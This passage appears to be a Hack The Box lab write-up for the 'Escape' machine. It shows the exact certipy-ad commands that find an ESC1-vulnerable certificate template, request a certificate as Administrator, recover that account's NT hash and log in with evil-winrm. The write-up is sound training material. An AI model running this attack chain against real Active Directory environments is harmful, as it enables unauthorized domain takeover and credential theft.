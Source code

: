 With Ryan's creds we re-log into the box using evil-winrm and start enumerating. 
> [!NOTE]
> Don't forget to get the user.txt off of the desktop

This was a bit of a time sync as I wanted to ensure I traveled every possible path, so I used WinPEAs, and several other enumeration commands I had come across but none bore any fruit.
Once again having to rely on HTB's hint, it indicated a tool like Certify or Certipy would be needed to get the next piece.
This sparked the fire that I needed to get the rest of the box. 

Way back in the past I had used Certipy-ad to pwn a box and came across a amazing resource for abusing certificate services.
This amazing blog covered everything from the how and why, that I can't do it justice and will leave the link here: https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/

Using this blog, I was able to find the ESC1 was vulnerable via the command:

```
certipy-ad find -u 'Ryan.Cooper@sequel.htb' -p '<RyansCreds>' -dc-ip '10.10.11.202' -vulnerable -stdout

<SNIP>
[!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

```
Following pretty much along with the blog, I built out the command to pull the administrators pfx:
```
certipy-ad req -u 'Ryan.Cooper@sequel.htb' -p '<RyansCreds>' -dc-ip '10.10.11.202' -target '10.10.11.202' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'Administrator@sequel.htb'
```
After getting the Administrator.pfx, you simply run certipy in auth mode to get the Admins NT Hash:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```
> [!NOTE]
> I kept getting time skewed issues when attempting to run this, if you face the same issue, run a terminal as root (sudo su -), run this command: "timedatectl set-ntp off" and "rdate -n 10.10.11.202", then run the certipy-ad command in the same terminal (it may take a couple of tries)

![Evil-WinRM of sql_svc](/docs/assets/Escape-Screenshot-4.png)

Evil-winRM allows us to not only pass in passwords, but hashes as well to log into windows machines, making it a super useful tool for pentesters.

## Privilege Escalation
